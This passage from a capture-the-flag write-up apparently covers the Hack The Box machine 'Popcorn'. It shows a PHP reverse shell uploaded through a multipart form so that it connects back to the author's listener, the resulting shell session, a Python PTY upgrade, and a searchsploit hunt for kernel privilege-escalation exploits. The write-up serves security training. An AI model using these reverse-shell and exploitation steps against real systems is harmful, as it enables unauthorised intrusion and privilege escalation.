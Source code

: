 But the shell is flaky and times out, I need a better shell but my php sucks.
Luckily Kali comes equiped with webshells.

I reactivate the proxy on FireFox for ZAP, only this time when I replay I also specify my IP address and 1337 as the port number as well as the Content Type:

```
-----------------------------1429460769362258019814915645
Content-Disposition: form-data; name="file"; filename="php-reverse-shell.php"
Content-Type: application/x-php

.
.
.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.34';  // CHANGE THIS
$port = 1337;       // CHANGE THIS

```

This time my listener returns:

```
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.6] 54293
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 00:06:57 up  2:08,  0 users,  load average: 3.13, 2.86, 1.74
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
```

and when I upgrade to bash:

``` sh
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```

I get:

```
www-data@popcorn:/$ 
```

Typically I now would hammer through a few different enumeration techniques, following a guide like g0tmi1k's awesome introduction to [Basic Linux Privilege Escalation] (https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/), however I'm instantly drawn to the uname output my shell gave me:

```
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```

This is a really old kernel build and it probrably has a few exploits kicking about.

Checking searchsploit gives dozens and dozens, but a couple of nuke level exploits stick out:

```
searchsploit linux kernel 2.6 nelson
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local Privileg | exploits/linux/local/15704.c
Linux Kernel < 2.6.36.2 (Ubuntu 10.04) - 'Half-Nelson.c' Econet Privilege Es | exploits/linux/local/17787.c
```